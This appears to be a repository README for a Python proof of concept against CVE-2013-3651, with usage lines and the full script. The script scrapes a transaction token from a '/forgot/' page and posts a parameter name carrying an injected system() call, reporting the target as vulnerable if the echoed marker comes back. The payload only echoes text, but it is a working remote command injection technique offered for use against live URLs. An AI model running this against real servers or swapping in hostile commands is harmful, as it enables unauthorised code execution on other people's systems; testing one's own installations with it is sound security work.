 Usage
-----

    $ python poc_cve_2013_3651.py <Target URL>

    - e.g.
    $ python poc_cve_2013_3651.py http://127.0.0.1:9000/
    Result: Vulnerable!

POC
---

    import re
    import urllib.request
    import sys

    args = sys.argv

    if len(args) != 2 :
        print ('Using: python poc_cve_2013_3651.py <Target URL>')
        exit()


    opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor())
    url = '%s/forgot/' % args[1]

    # Get transaction value.
    req = urllib.request.Request(url)
    res = opener.open(req)
    body = res.read().decode('utf-8')
    res.close()
    transactionid = re.findall(r' name="transactionid" value="([a-z0-9]+)"', body)[0]

    # Post Check request.
    post_data = urllib.parse.urlencode({
        'transactionid': transactionid,
        'mode': 'mail_check',
        'email': '',
        "name01[system('echo CVE$1_2013_3651')]": '',
        'name02': ''
    }).encode('utf-8')

    res = opener.open(req, post_data)
    body = res.read().decode('utf-8')
    res.close()

    # print (body)
    if re.findall(r'CVE_2013_3651', body) :
        print('Result: Vulnerable!')
    else:
        print('Result: Not vulnerable...')
